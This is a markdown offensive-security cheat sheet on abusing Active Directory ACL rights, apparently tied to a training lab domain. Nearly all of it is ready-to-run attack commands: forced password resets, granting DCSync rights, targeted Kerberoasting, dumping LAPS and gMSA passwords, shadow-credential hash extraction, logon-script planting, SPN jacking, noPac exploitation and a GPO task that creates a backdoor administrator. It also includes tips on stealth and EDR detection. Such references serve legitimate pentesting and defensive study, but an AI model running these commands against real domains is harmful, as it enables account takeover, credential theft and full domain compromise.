

#ad #dacl #acl #shadow-credentials #gpo

# DACL / ACL Abuse

Abusing object ACEs: password resets, targeted kerberoast, DCSync rights, shadow credentials, logon scripts, SPN jacking, sAMAccountName spoofing, GPO abuse. Related: [enumeration](enumeration.md) · [kerberos-delegation](kerberos-delegation.md) · [kerberos-tickets](kerberos-tickets.md) · [ntlm-relay](ntlm-relay.md)

## Contents
- [Enumerate ACLs](#enumerate-acls)
- [Abusing Rights (Windows)](#abusing-rights-windows)
- [Abusing Rights (Linux)](#abusing-rights-linux)
- [Shadow Credentials (msDS-KeyCredentialLink)](#shadow-credentials-msds-keycredentiallink)
- [Logon Scripts (scriptPath)](#logon-scripts-scriptpath)
- [SPN Jacking](#spn-jacking)
- [sAMAccountName Spoofing (noPac / CVE-2021-42278/42287)](#samaccountname-spoofing-nopac--cve-2021-4227842287)
- [GPO Abuse](#gpo-abuse)

## Abuse Path by ACE Right

| Right Held | Abuse | Section |
|---|---|---|
| `GenericAll` / `ForceChangePassword` | Force a password reset on the target | [Abusing Rights (Windows)](#abusing-rights-windows) |
| `GenericAll` / full control (write) | Grant yourself rights, add to group, reset password, read LAPS | [Abusing Rights (Linux)](#abusing-rights-linux) |
| `WriteOwner` | Take ownership of the object, then grant further rights | [Abusing Rights (Linux)](#abusing-rights-linux) |
| `DS-Replication-Get-Changes[-All]` (grantable) | Grant DCSync rights to a controlled principal | [Abusing Rights (Linux)](#abusing-rights-linux) · [dcsync](dcsync.md) |
| Write to `msDS-KeyCredentialLink` | Add "shadow credentials" (a certificate) and authenticate as the target via PKINIT | [Shadow Credentials](#shadow-credentials-msds-keycredentiallink) |
| Write to `scriptPath` | Plant a logon script that executes as the target on next interactive logon | [Logon Scripts](#logon-scripts-scriptpath) |
| `WriteSPN` (self or targeted) | Assign an SPN, Kerberoast it, or combine with S4U for ticket forging | [SPN Jacking](#spn-jacking) |
| High `ms-DS-MachineAccountQuota` + noPac bug | Create/rename a machine account to collide with the DC's, impersonate via PAC | [sAMAccountName Spoofing](#samaccountname-spoofing-nopac--cve-2021-4227842287) |
| GPO edit rights / link rights | Push a malicious GPO (local admin, scheduled task) to linked OUs | [GPO Abuse](#gpo-abuse) |

## ACL Abuse Flow



## Enumerate ACLs
```powershell
$userSID = ConvertTo-SID jose
```
Convert a username to SID (PowerView).

```powershell
Get-DomainObjectAcl -ResolveGUIDs -Identity <IDENTITY> | ?{$_.SecurityIdentifier -eq $userSID}
```
Get ACEs on <IDENTITY> held by $userSID.

```powershell
Get-DomainObjectAcl -ResolveGUIDs
```
Get all AD rights affecting an object.

```bash
python3 examples/dacledit.py -principal jose -target martha -dc-ip 10.129.205.81 inlanefreight.local/user:Password
```
Read DACLs on target martha held by principal jose (Impacket dacledit).

```bash
pywerview get-objectacl --name '<TARGET_USER>' -w <DOMAIN> -t <DC_IP> -u '<USER>' -p '<PASSWORD>' --resolve-sids --resolve-guids
```
Get ACEs with PywerView.

## Abusing Rights (Windows)
```powershell
Set-DomainUserPassword -Identity jose -AccountPassword $((ConvertTo-SecureString 'NewPassword' -AsPlainText -Force)) -Verbose
```
Force a password reset (GenericAll/ForceChangePassword).

```powershell
Get-DomainObject -Identity LAPS10 -Properties "ms-mcs-AdmPwd",name
```
Read a computer's LAPS password (PowerView).

## Abusing Rights (Linux)
```bash
python3 examples/dacledit.py -principal user -target jose -dc-ip 10.129.205.81 inlanefreight.local/user:Password -action write
```
Grant user FullControl over jose.

```bash
python3 examples/dacledit.py -principal user -target-dn dc=inlanefreight,dc=local -dc-ip 10.129.205.81 inlanefreight.local/user:Password -action write -rights DCSync
```
Grant DCSync rights. See [kerberos-tickets](kerberos-tickets.md).

```bash
python3 examples/owneredit.py -new-owner user -target Jose -dc-ip 10.129.205.81 inlanefreight.local/user:Password -action write
```
Take ownership of jose (Impacket owneredit).

```bash
python3 targetedKerberoast.py -vv -d inlanefreight.local -u user -p Password --request-user martha --dc-ip 10.129.205.81 -o martha.txt
```
Targeted Kerberoast of martha. See [kerberoasting](kerberoasting.md).

```bash
net rpc group members 'Group Name' -U inlanefreight.local/user%Password -S 10.129.205.81
```
Query a group's membership (Samba net rpc).

```bash
net rpc group addmem 'Group Name' jose -U inlanefreight.local/user%Password -S 10.129.205.81
```
Add jose to a group.

```bash
net rpc password jose NewPassword -U inlanefreight.local/user%Password -S 10.129.205.81
```
Reset jose's password.

```bash
python3 laps.py -u user -p Password -l 10.129.205.81 -d inlanefreight.local
```
Read all computer LAPS passwords (laps.py).

```bash
python3 gMSADumper.py -d inlanefreight.local -l 10.129.205.81 -u user -p Password
```
Read all gMSA passwords (gMSADumper).

## Shadow Credentials (msDS-KeyCredentialLink)

> [!TIP]
> Shadow credentials work on both user and computer objects and don't require resetting the target's password — a stealthier alternative to `Set-DomainUserPassword` when you only need a one-shot auth, since the original password stays valid and unchanged.

<details>
<summary>Full Shadow Credentials workflow (Windows + Linux)</summary>

```powershell
Get-DomainUser -Filter '(msDS-KeyCredentialLink=*)'
```
Find users with msDS-KeyCredentialLink set (PowerView).

```cmd
.\Whisker.exe add /target:<TARGET>
```
Add key credentials (Whisker).

```cmd
.\Rubeus.exe asktgt /user:<USER> /certificate:<CERTIFICATE> /password:"<PASSWORD>" /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```
Retrieve TGT and NTLM hash using the cert.

```cmd
.\Whisker.exe remove /target:<TARGET> /deviceid:<DEVICEID>
```
Remove a specific key credential value.

```bash
python3 pywhisker.py -d <DOMAIN> -u <USER> -p <PASSWORD> --target <TARGET> --action add
```
Add shadow credentials from Linux (pyWhisker).

```bash
python3 gettgtpkinit.py -cert-pfx <CERTIFICATE> -pfx-pass <PASSWORD> <DOMAIN>/<USER> <CCACHE_FILE>
```
Generate a TGT from a PKINIT cert (PKINITtools).

```bash
KRB5CCNAME=<CCACHE_FILE> python3 getnthash.py -key <KEY> <DOMAIN>/<USER>
```
Extract the NT hash from the TGT.

```bash
KRB5CCNAME=<CCACHE_FILE> smbclient.py -k -no-pass <DC>
```
Connect to a share using the TGT (Impacket).

</details>

## Logon Scripts (scriptPath)
```bash
bloodyAD --host "<DC_IP>" -d "<DOMAIN>" -u "<USER>" -p '<PASSWORD>' set object <TARGET_USER> scriptPath -v '<PATH>'
```
Set a user's scriptPath (bloodyAD).

```powershell
Set-DomainObject <TARGET_USER> -Set @{'scriptPath'='<PATH>'}
```
Modify scriptPath (PowerView).

```cmd
icacls $env:LOGONSERVER\NETLOGON\<DIR>
```
Check permissions on a NETLOGON folder.

```powershell
.\Invoke-ScriptSentry.ps1
```
Discover misconfigurations in logon scripts (ScriptSentry).

## SPN Jacking
```powershell
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $(ConvertTo-SID <USER>)}
```
List WriteSPN permissions for a user.

```powershell
Set-DomainObject -Identity <TARGET> -Set @{serviceprincipalname='<SPN>'} -Verbose
```
Assign an SPN to a target machine (PowerView).

```cmd
.\Rubeus.exe s4u /domain:<DOMAIN> /user:<USER> /rc4:<HASH> /impersonateuser:<ADMIN> /msdsspn:"<SPN>" /nowrap
```
S4U attack to forge a ticket as Administrator. See [kerberos-delegation](kerberos-delegation.md).

```powershell
Set-DomainObject -Identity <TARGET> -Clear 'serviceprincipalname' -Verbose
```
Clear an SPN from a target (PowerView).

## sAMAccountName Spoofing (noPac / CVE-2021-42278/42287)

> [!CAUTION]
> This path requires creating/renaming a machine account and relies on a specific unpatched DC — it's a destructive, high-signal technique. Confirm the DC is actually vulnerable with the scanner before attempting exploitation, and expect it to be flagged by any EDR watching for sAMAccountName changes on computer objects.

<details>
<summary>Full noPac workflow (Windows + Linux)</summary>

```cmd
.\noPac.exe scan -domain <DOMAIN> -user <USER> -pass <PASSWORD>
```
Scan for noPac vulnerability (Windows).

```powershell
(Get-DomainObject -SearchScope Base)."ms-ds-machineaccountquota"
```
Query ms-DS-MachineAccountQuota (PowerView).

```powershell
New-MachineAccount -MachineAccount "<ACCOUNT>" -Password $password -Domain <DOMAIN> -DomainController <DC_IP>
```
Create a machine account (PowerMad).

```powershell
Set-MachineAccountAttribute -MachineAccount "<ACCOUNT>" -Value "<VALUE>" -Attribute samaccountname -Domain <DOMAIN> -DomainController <DC_IP>
```
Change a machine account's sAMAccountName (PowerMad).

```bash
python3 noPac/scanner.py -dc-ip <DC_IP> <DOMAIN>/<USER>:<PASSWORD> -use-ldap
```
Scan for noPac from Linux.

```bash
getTGT.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP>
```
Request a TGT (Impacket).

</details>

## GPO Abuse
```powershell
New-GPO -Name TestGPO -Comment "This is a test GPO."
```
Create a new GPO.

```powershell
New-GPLink -Name TestGPO -Target "OU=TestOU,DC=inlanefreight,DC=local"
```
Link a GPO to an OU.

```cmd
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <NAME> --GPOName "Default Security Policy - WKS"
```
Abuse GPO edit rights to add a local admin.

```bash
proxychains4 -q python3 pygpoabuse.py inlanefreight.local/<NAME>:<PASSWORD> -gpo-id <GPO-GUID> -command "net user plaintext Password1234 /add && net localgroup Administrators plaintext /add" -taskname "PT_LocalAdmin" -description "test" -dc-ip 172.16.92.10 -v
```
Abuse a GPO from Linux (pyGPOAbuse).

```bash
proxychains4 -q python3 GPOwned.py -u <NAME> -p <PASSWORD> -d inlanefreight.local -dc-ip 172.16.92.10 -gpcmachine -listgpo
```
List GPOs with GPOwned.
